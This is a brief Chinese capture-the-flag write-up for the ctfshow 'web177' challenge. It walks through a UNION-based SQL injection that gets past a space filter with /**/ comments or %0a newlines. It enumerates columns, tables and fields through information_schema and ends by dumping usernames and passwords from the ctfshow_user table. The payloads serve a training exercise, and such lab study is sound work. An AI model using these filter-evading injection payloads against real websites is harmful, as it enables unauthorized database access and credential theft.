


# web177
空格被过滤使用/**/或%0a或tab绕过
```
1'order/**/by/**/3%23
```
列数为3

判断回显位
```
1'union%0aselect%0a1,2,3%23
```
查表
```
'union%0aselect%0adatabase(),2,table_name%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='ctfshow_web'%23
```
查字段
```
'union%0aselect%0adatabase(),2,column_name%0afrom%0ainformation_schema.columns%0awhere%0atable_name='ctfshow_user'%23
```


查数据
```
'union%0aselect%0adatabase(),username,password%0afrom%0actfshow_user%23
```
